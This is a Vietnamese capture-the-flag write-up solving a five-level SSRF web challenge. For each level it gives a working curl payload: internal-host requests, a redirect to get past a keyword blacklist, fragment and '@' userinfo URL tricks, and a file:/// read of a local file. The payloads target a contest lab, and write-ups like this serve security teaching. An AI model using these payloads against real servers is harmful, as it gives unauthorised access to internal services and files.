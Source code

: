 ## Fortnight challenge 2022: OOPs (Object oriented programming - supreme)

![warmup category](https://img.shields.io/badge/Category-web-brightgreen.svg)  
![score](https://img.shields.io/badge/Score_after_CTF-200-blue.svg)  
![author](https://img.shields.io/badge/Author-Em0n%238997-blue.svg)  
![solves](https://img.shields.io/badge/Solves-6-lightgrey.svg)

### Description
You think you understand SSRF already? How cute

### Hints
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

### Attached files
[source.zip](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/Cute%20Page/source.zip)

### Summary
> Câu chuyện về 1 người lập trình viên đi vá lỗ hổng SSRF của mình

### Detailed solution

Challenge này được chia làm 5 level từ dễ đến khó, đòi hỏi những hiểu biết nhất định về cách mà ứng dụng "đọc" `url`, từ đó lợi dụng SSRF để lấy được những thông tin nội bộ.

---

**Level 1**

Level này có 1 server frontend có thể kết nối từ bên ngoài và server trả về flag nhưng chỉ có thể truy cập trong mạng nội bộ vì trong port của server này không được mapped ra bên ngoài
```yaml
// docker-compose.yml

version: "3.6"
services:
  level1:
    build: ./frontend
    restart: unless-stopped
    ports:
      - 33331:80

  flag:
    build: ./flag
    restart: unless-stopped
```

Tuy nhiên ở frontend nhận 1 url và sử dụng curl để gọi tới url đó, vậy nên ta có thể request tới `http://flag:3000/flag` thông qua frontend.

```bash
curl "http://103.245.249.107:33331/?url=http://flag:3000/flag"
```
```
Do config, service nội bộ flag không thể truy cập được từ Internet.
Tuy nhiên, nhờ lỗ hổng SSRF, ta đã có thể đọc được nội dung bí mật này
Phần 1 của flag: f0rtn1ght{
```

---
**Level 2**

Sau khi nhận ra mình không hề có phương pháp bảo vệ nào cho server nội bộ, anh dev đã nảy ra ý tưởng là thêm blacklist `flag` không được nằm trong url. Nhưng rõ ràng để tới được path `/flag`, chúng ta bắt buộc phải truyền nguyên văn tên của nó.

Cần để ý rằng có 1 giá trị khá thú vị khi anh dev setup `curl`, đó là 
```php
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
```
Dòng này có nghĩa là `curl` sẽ tiếp tục thực hiện các request tiếp theo nếu nó nhận được response redirect. Nó tương tự với flag `-L` khi gọi curl trên command line.

Vậy là đã rõ, thay vì gửi url tới server nội bộ, chúng ta sẽ setup 1 server của mình để trả về redirect response tới server nội bộ đó, và đảm bảo url của server này không chứa từ "flag" là được :))) Có nhiều cách để thực hiện, hoặc là tạo server riêng, hoặc là dùng router để kích hoạt port forwarding, dịch vụ webhook hoặc là dùng cách url shortener.

```bash
curl "http://103.245.249.107:33332/?url=https://tinyurl.com/muvt6p4y"
```
```
Đôi khi lỗ hổng SSRF sẽ bị ngăn chặn bằng cách lọc những từ khóa xấu.
Ví dụ: localhost, 127.0.0.1, internal, ...
Tuy nhiên, ta có thể sử dụng tính năng redirect để điều hướng cho server gửi request tới các services nội bộ
Phần 2 của flag: f1ftY_
```

---
**Level 3**

Thua keo này thì bày keo khác. Lần này anh dev của chúng ta tạo thêm hẳn 1 server `api` nội bộ nữa, và bắt buộc url chúng ta gửi đi sẽ truyền vào cho server này
```php
$url = "http://api:3000" . $url . ".txt";
```
Server có 3 route chính
- `/robot.txt`: in ra con robot
- `/monkey.txt`: in ra con khỉ
- `/redirect`: redirect sang `url` được truyền trong param

Không cần phải nói, endpoint thứ 3 chính là cái chúng ta cần. Tuy nhiên, lần này thì url của chúng ta dính thêm cái đuôi `.txt` nữa, vậy nên chỉ cần thêm dấu `#` để biến phần đó thành fragment hoặc cho nó thành 1 payload thì server sẽ hiểu `/flag` chính là path của url.

```bash
curl "http://103.245.249.107:33333/?url=/redirect?url=http://flag:3000/flag#"
```
```
Lỗ hổng SSRF thường liên quan mật thiết đến một loại dữ liệu: URL
Hiểu rõ cấu trúc của URL sẽ giúp các bạn có thêm nhiều ý tưởng để tấn công hay bypass các lớp phòng chống
Phần 3 của flag: sh@de_
```

---
**Level 4**

Sau khi để ý rằng việc bật `CURLOPT_FOLLOWLOCATION` chằng giúp ích gì cho anh ngoài việc để cho hacker chui vào mạng nội bộ của mình, anh nảy ra sáng kiến ~~cúp cầu dao~~ tắt luôn cái option này, nghĩa là dùng payload cũ ở level 3 sẽ trả về response sau thay vì flag
```
Found. Redirecting to http://flag:3000/flag
```

Tới lúc này ta sẽ cần hiểu sâu hơn về cách mà các ứng dụng, trong trường hợp này là `curl`, hiểu về url. Hint của challenge dẫn tới slide của `Orange Tsai` nói về sự phức tạp của url khiến cho dev dễ tạo ra lỗ hổng SSRF nếu không hiểu kĩ ứng dụng của mình đang làm gì.

Có 1 kiểu authentication được dùng phổ biến có tên là `Basic Authentication`. Cách này cho phép chèn phía trước domain 1 chuỗi có dạng `<username>:<password>@` và phía server sẽ nhận phần credential đó để tiến hành xác thực. 

Và tiện thay, vì hiện tại phần được ghép phía trước `$url` đang là `api:3000`. Nếu chúng ta truyền url là `@flag:3000/flag#`, url đầy đủ sẽ là `http://api:3000@flag:3000/flag#`. `curl` sẽ hiểu rằng ta đang gọi tới `flag:3000` kèm credential là `username = api, password = 3000`, và từ đó chúng ta có thể SSRF tới server `flag` mà không cần thông qua `api`.

```bash
curl "http://103.245.249.107:33334/?url=@flag:3000/flag#"
```
```
Theo đánh giá của tác giả, đây là level khó nhất, chúc mừng các bạn đã tìm được lời giải 
Phần 4 của flag: 0ffffFffff_
```

---
**Level 5**

Tức nước vỡ bờ. Sau khi bị hacker dập te tua mạng nội bộ của mình, có vẻ anh dev của chúng ta đã bỏ cuộc và để mặc file `flag` nằm cùng directory của folder `/src`.

Tuy nhiên, vì không còn server `flag` nghĩa là chúng ta không còn server để serve nội dung của file đó lên nữa. Rất may là thư viện `curl` của php không chỉ hỗ trợ scheme `http` hay `https` mà còn nhiều scheme khác như `ftp`, `ftps`, `gopher`, `file`, ... [link geeksforgeeks](https://www.geeksforgeeks.org/php-curl/).

Vì thế chúng ta có thể sử dụng scheme `file` để đọc được file `flag` này mà không cần server kia nữa. Các bạn có thể đọc thêm về các loại `file` scheme ở [đây](https://en.wikipedia.org/wiki/File_URI_scheme).

```bash
curl "http://103.245.249.107:33335/?url=file:///flag"
```
```
Mình mong là 5 level của mình sẽ giúp các bạn hiểu thêm gì đó về lỗ hổng SSRF, các thủ thuật để khai thác lỗ hổng này, và hiểu thêm về URL.
Phần 5 của flag: SSRF}
```


### Flag
```
f0rtn1ght{f1ftY_sh@de_0ffffFffff_SSRF}
```
